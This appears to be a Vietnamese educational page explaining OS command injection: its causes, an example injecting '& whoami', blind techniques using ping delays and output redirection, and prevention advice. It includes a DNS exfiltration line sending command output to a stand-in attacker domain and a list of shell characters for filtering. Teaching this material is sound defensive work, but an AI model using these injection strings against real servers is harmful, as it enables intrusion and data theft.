





# OS Command Injection

## OS Command Injection là gì?

  -	OS Command Injection (Shell Injection) là một lỗ hổng bảo mật web, cho phép attacker có thể thực thi các câu lệnh shell của hệ điều hành trên server máy chủ.

## Nguyên nhân xảy ra OS Command Injection?

  - OS Command Injection xảy ra khi một ứng dụng gọi thực thi một lệnh shell với input từ người dùng mà không kiểm tra input cẩn thận.

## Ví dụ về OS Command Injection

Đây là đoạn code cho của một ứng dụng máy tính đơn giản, sử dụng lệnh cmd `set /a (phép tính)` để tính toán



Phép tính chạy lúc bình thường





Tuy nhiên vì không kiểm tra các kí tự đầu vào nên attacker có thể lợi dụng lỗ hỏng OS Command Injection như sau



Lúc này câu lệnh sẽ được thực thi trên shell là `set /a & whoami`



Kí tự `&` là kí tự ngắt giữa 2 lệnh shell với nhau, còn lại lệnh whoami đã dược chạy và cho kết quả (2 user khác nhau vì user phía trên là của Xamp)

## Hacker có thể làm gì khi khai thác được OS Command Injection?

Khi khai thác được OS Command Injection, hacker có thể thực thi các lệnh shell trên server máy chủ. Tùy theo đặc quyền của server mà hacker có thể thực hiện:

  -	Truy cập các file, dữ liệu thuộc server (cat, ...)
  -	Khai thác thông tin của server (whoami, ifconfig, ps -ef, netstat -an, ...)
  -	Sửa đổi, phá hoại các file trên server (rm, echo, ...)
  -	Chuyển hướng tấn công đến các hệ thống khác (dựa vào sự tin cậy giữa server bị tấn công và hệ thống mục tiêu)
   
## Blind OS command injection

Trường hợp kết quả của câu lệnh shell không trả về trong HTTP respone. Ta cần một số kĩ thuật để khai thác blind OS command injection.

### Xác định OS command injection dựa vào time-delay

Lệnh `ping -c 10 127.0.0.1` (linux) hay `ping -n 10 127.0.0.1` (windows) gửi 10 gói tin ICMP tới địa chỉ IP loopback, dựa vào thời gian thực thi của lệnh, ta xác định được OS command injection, ngoài ra các lệnh có time-delay khác đều có thể sử dụng.

### Khai thác blind OS command injection bằng chuyển hướng đầu ra

Nếu kết quả của câu lệnh không trả về trong HTTP respone, ta có thể ghi kết quả câu lệnh vào một file mà ta có thể truy cập và đọc được.

Giá sử thư mục gốc của website nằm ở `/var/www/static` ta dùng lệnh như sau `whoami > /var/www/static/whoami.txt`, lúc này kết quả trả về của lệnh whoami sẽ được ghi vào file `whoami.txt` nằm trong thư mục gốc của website, ta có thể dùng trình duyệt để truy cập `https://vulnerable-website.com/whoami.txt` và xem kết quả trả về.

### Khai thác blind OS command injection bằng các lệnh kết nối mạng

Ta có thể sử dụng kết nối mạng để khai thác các lỗ hổng blind OS command injection, ví dụ

```
nslookup `whoami`.kgji2ohoyw.web-attacker.com 
```
Lệnh này tra cứu DNS cho tên miền `(kết quả câu lệnh whoami).web-attacker.com`, tên miền `web-attacker.com` được kiểm soát bởi attacker và attacker có thể theo dõi giá trị truy vấn để tìm ra kết quả của `whoami`.

## Phòng tránh OS command injection

### Giai đoạn đang phát triển:
  -	Không sử dụng các câu lệnh shell, trong hầu hết mọi trường hợp, có nhiều cách thay thế để triển khai chức năng cần thiết bằng cách sử dụng các API nền tảng an toàn hơn.
  -	Nếu như bắt buộc phải dùng các câu lệnh shell, cần áp dụng xác thực đầu vào mạnh:
  ```
  +) Chỉ cho phép dùng các kí tự cho phép
  +) Chỉ cho phép dùng các kí tự số
  +) Chỉ cho phép dùng các kí tự chữ cái hoặc số, không có kí tự đặc biệt hay khoảng trắng
  ```
  - Lưu ý: Đừng lọc đầu vào bằng cách kiểm tra các kí tự đặc biệt của shell (như &, \|, ;, ...). Trên thực tế, điều này quá rủi ro và dễ bị các hacker trình độ cao vượt qua.

### Giai đoạn chạy thực tế:
  -	Cài đặt Web Application Firewall để chặn các gói tin có chứa các kí tự đặc biệt, các keyword đến server
  ```
  +) Một số kí tự đặc biệt trong OS command injection như | ; & $ > < ' \ ! >> # “
  ``` 
  -	Phân quyền chặt chẽ để hạn chế những tài nguyên mà user web service có thể làm tổn hại nếu bị tấn công
  -	Cần có cơ chế xác thực hoặc các hệ thống như IDS để phòng trường hợp máy bị tấn công chuyển hướng tấn công đến các hệ thống khác trong tổ chức

## Nguồn tham khảo

  - [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)
  - [https://viblo.asia/p/os-command-injection-la-gi-command-injection-co-nguy-hiem-khong-can-cuc-ky-than-trong-doi-voi-cac-lenh-os-goi-tu-website-cua-ban-OeVKB3PEZkW](https://viblo.asia/p/os-command-injection-la-gi-command-injection-co-nguy-hiem-khong-can-cuc-ky-than-trong-doi-voi-cac-lenh-os-goi-tu-website-cua-ban-OeVKB3PEZkW)
 
